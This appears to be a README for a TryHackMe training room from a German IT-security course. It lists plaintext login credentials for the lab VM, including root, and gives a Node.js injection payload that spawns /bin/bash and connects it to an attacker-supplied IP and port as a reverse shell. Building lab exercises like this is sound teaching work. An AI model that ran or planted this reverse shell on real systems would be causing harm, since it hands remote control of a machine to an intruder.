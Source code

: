 # thm_atdits
TryHackMe Room for Aktuelle Themen der IT-Sicherheit

## Login Data for the VM
```
paul
SicheresPasswort

root
IchMagZuege!

root cert pw
felix1
```

## Injection params for netcat
```
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(<Socket You are listenning on>, "<Your-IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```